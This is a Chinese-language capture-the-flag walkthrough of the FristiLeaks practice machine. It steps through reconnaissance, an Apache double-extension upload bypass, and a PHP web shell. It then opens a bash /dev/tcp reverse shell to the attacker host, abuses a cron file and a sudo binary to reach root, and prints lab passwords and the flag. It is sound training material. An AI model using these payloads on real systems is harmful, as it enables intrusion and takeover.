# 前言

靶机：`fristileaks`靶机，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.6`

靶机采用`virtualbox`虚拟机，攻击机采用`VMware`虚拟机，都采用桥接网卡模式

这里需要注意一点，官方给出提示，需要把虚拟机的MAC地址修改。

VMWare修改为`08:00:27:A5:A6:76`，在`virtualbox`修改为`080027A5A676`



> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载 `https://pan.quark.cn/s/a1ae978b65e1`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```



# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.10 -p- -oA nmap-tcp
```



再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.10 --top-ports 20 -oA nmap-udp
```



可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```



进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.10 -p $ports --min-rate=1000
```



再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.10 -p $ports
```



## 网站信息探测

访问80端口网站，查看页面源代码并没有信息泄露



使用`whatweb`或者浏览器插件`wappalyzer`识别配置

```shell
whatweb http://192.168.10.10
```





使用`gobuster、dirb、dirsearch`等工具进行目录爆破

```shell
dirb http://192.168.10.10
```



访问`robots.txt`，发现三个目录`cola、sisi、beer`

访问三个目录，发现都指向一个图片



图片中说没有链接，但是图片右下角有一个域名，不知道是否有用，记一下`memegenerator.net`

把这个图片下载，测试有无隐藏信息

```shell
wget http://192.168.10.10/images/3037440.jpg
exiftool 3037440.jpg
```



那么再使用`binwalk`和`steghide`测试

```shell
binwalk 3037440.jpg
steghide info 3037440.jpg
```



尝试使用`stegseek`爆破测试，到底是否有密码和隐藏信息

```shell
stegseek --crack 3037440.jpg -wl /usr/share/wordlists/fasttrack.txt result.txt
stegseek --crack 3037440.jpg -wl /usr/share/wordlists/rockyou.txt result.txt
#上面没有破解，尝试爬取网站信息做字典，然后爆破
cewl http://192.168.10.10 -m 3 -w word
stegseek --crack 3037440.jpg -wl word result.txt
```



目前来看，可能就是那个域名了，直接访问并不行，是否是密码呢，测试图片，发现也不是。

那么绑定域名吧，可能需要绑定，但是绑定后也没有内容产出，尝试使用`gobuster`扫描虚拟主机，也没有发现内容

# 网站信息分析

啧，访问`images`目录，发现两个图片，一个是之前访问的，另一个是主页显示的

发现东西，这里明显`keep-calm`对应着图片中的两个单词



那么下面两个呢`drink`和`fristi`，是否也是一种文件，或者目录，尝试构造可能性

```shell
drink
fristi
drink-fristi
fristi-drink
```

以这个为字典，进一步进行目录爆破，当然后缀名，可通过工具添加

```shell
gobuster dir -u http://192.168.10.10 -w word -b 403-404 -x php,html,txt,git,zip,jpg,png
```



访问这个目录`fristi`，发现一个登录框



# 信息泄露

查看页面源代码，发现有提示说，做了`base64`编码，说是图片，并且有一个`by eezeepz`，这个可能是用户名



继续向下查看页面源代码，发现有一个`base64`编码的内容



把这个使用`base64`解码后，确定文件格式为`png`



然后保存到文件`1.png`


查看这个`1.png`，内容为`keKkeKKeKKeKkEkkEk`



结合看，这个是否为登录时的密码呢，也就是前面的用户名`eezeepz`和这个密码`keKkeKKeKKeKkEkkEk`

# 文件上传漏洞(apache解析)

登录成功



点击`upload file`，发现跳转，然后可以上传文件，不过这里提示是选择图片上传



ok，先上传一个图片文件测试，看能否知道上传后的路径，以及文件名是否被修改

上传文件名为`joker-movie-wallpaper.jpg`文件，发现提示上传到一个路径`/uploads`



那么尝试构造路径，`/fristi/uploads`，这个路径确实有，那么测试文件名是否被修改

构造`/fristi/uploads/joker-movie-wallpaper.jpg`，访问后发现确实可以，文件名不会被修改，并且不会到一定时间自动删除


那么尝试上传脚本文件，因为几个文件都是`php`，所以测试`php`

直接上传`php`文件是不行的，这里提示三只图片格式可以



那么尝试文件名的绕过进行测试，之前测试网站时，中间件是`apache`的，所以有挺多方式的

在尝试`shell2.php.png`时，绕过检测，上传成功，这就是`apache2`解析漏洞了，我这里是采用浏览器的重发功能，编辑请求数据包



然后访问这个路径，发现确实执行了`php`代码



# 命令执行到反弹shell

那么就可以构造一个命令执行的代码，然后上传

```php
<?php system($_GET['cmd']);?>
```

还是以浏览器上传的方式



然后访问`shell3.php.png`，并构造链接

```shell
http://192.168.10.10/fristi/uploads/shell3.php.png?cmd=id
```


那么尝试反弹`shell`的代码

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#因为在url中，所以进行url编码
bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```

然后在`kali`中开启监听

```shell
nc -lvvp 9999
```

然后在浏览器执行即可

```shell
http://192.168.10.10/fristi/uploads/shell3.php.png?cmd=bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.6%2f9999+0%3e%261
```




# 靶机内信息收集

使用`compgen`测试安装了什么版本的`python`

```shell
compgen -c | grep python
```

发现是`python2`，那么使用代码获取一个进一步的`shell`

```shell
python2 -c 'import pty;pty.spawn("/bin/bash")'
```



在`/var/www`目录，发现一个`notes.txt`文件，查看，发现是`jerry`给`eezeepz`的信息



查看有哪些用户

```shell
ls -la /home
cat /etc/passwd | grep /bin/bash
```



查看网站状态，发现`3306`端口开放的

```shell
ip add
ss -antulp
netstat -antulp
```



那么去查看网站连接数据库的文件`checklogin.php`，发现连接的密码等.用户名`eezeepz`和密码`4ll3maal12#`



查看数据库中的信息，发现就一个用户



那么对于`eezeepz`，有两个密码对应着

```html
4ll3maal12#
keKkeKKeKKeKkEkkEk
```

查看定时任务

```shell
crontab -l
cat /etc/crontab
atq
```



使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```



收集内核版本和系统版本

```shell
uname -a
uname -r
cat /etc/issue
cat /etc/*release
lsb_release
```



# 提权

## 获取admin目录权限

之前在`/home`目录看到`eezeepz`账户其他人是可以查看和执行的，那么切换到目录，发现有`notes.txt`，又一个文件，查看，发现有意思



根据这个文件，可以知道，只要在`/tmp`目录下创建文件`runthis`，用户`admin`就会定时执行，并且可以使用的命令也给出了，那么可以使用`chmod`加权限，注意需要命令的绝对路径

```shell
#经测试，第一条并不会执行成功
echo '/usr/bin/chmod -R 777 /home/admin' > runthis
#下面这个可以修改权限
echo '/home/admin/chmod -R 777 /home/admin' >> runthis
```



切换到`/home/admin`目录下，发现一段`python`代码，和对应的文件名，查看后，发现是一段编码



关键代码如下

```shell
base64string= base64.b64encode(str)
return codecs.encode(base64string[::-1], 'rot13')
```

分析可知：先进行了`base64`编码，然后把编码后的字符进行反转，最后进行`rot13`编码

那么解开的话，需要先进行`rot13`解码，然后反转，最后`base64`解码

具体代码如下

```python
import base64
import codecs
import sys

def decodeString(encoded_str):
    # 先进行 ROT13 解码
    rot13_decoded = codecs.decode(encoded_str, 'rot13')
    # 反转字符串
    reversed_str = rot13_decoded[::-1]
    # 将反转后的字符串转换为 bytes 类型
    reversed_bytes = reversed_str.encode('utf-8')
    # 进行 Base64 解码
    base64_decoded = base64.b64decode(reversed_bytes)
    # 将解码后的 bytes 类型转换为字符串
    return base64_decoded.decode('utf-8')

if __name__ == "__main__":
        decoded_result = decodeString('mVGZ3O3omkJLmy2pcuTq')
        print(decoded_result)
```

解码的结果为`thisisalsopw123`



在该目录下，还有一个`whoisyourgodnow.txt`，查看后，也是类似编码后的，`=RFn0AKnlMHMPIzpyuTI0ITG`

那么再通过上面的代码进行解码，结果为`LetThereBeFristi!`

总结一下，当前获取的值，首先是前面文件名是加密后的密码，解码后为`thisisalsopw123`

另一个是所有者为`fristigod`的文件`whoisyourgodnow.txt`，解码后为`LetThereBeFristi!`

并且经过测试，这两个文件解码后的内容，都是对应的密码


| 用户名    | 密码              |
| --------- | ----------------- |
| admin     | thisisalsopw123   |
| fristigod | LetThereBeFristi! |


## 提权至root

当以`admin`用户登录时，`sudo -l`没有任何内容

以`fristigod`用户登录时，`sudo -l`有一个可用



并且使用`find`寻找具有SUID权限文件时，这个文件也具有SUID权限的

查看当前用户的命令历史记录，发现别人的命令了



查看了一下`/etc/passwd`，确实有这个用户，啧

直接复制代码并执行

```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
```

测试发现，这个后面加上命令，会执行的，所以构造提权的bash

```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash -p
```



查看`root`目录下的文件，发现最后的`flag`为`Y0u_kn0w_y0u_l0ve_fr1st1`




# 总结

该靶机的考察很广，基本上都涉及一点

1. 对于网站的`robots.txt`，以及图片的隐藏信息，不一定隐写，可能就在图片上
2. 对于网站的页面源代码一定要看
3. 对于文件上传漏洞的简单测试
4. 对于`php`代码以及反弹shell的测试
5. 对于靶机内信息收集的全面性
6. 对于提权一些信息也要知道，这里就是查看命令的历史记录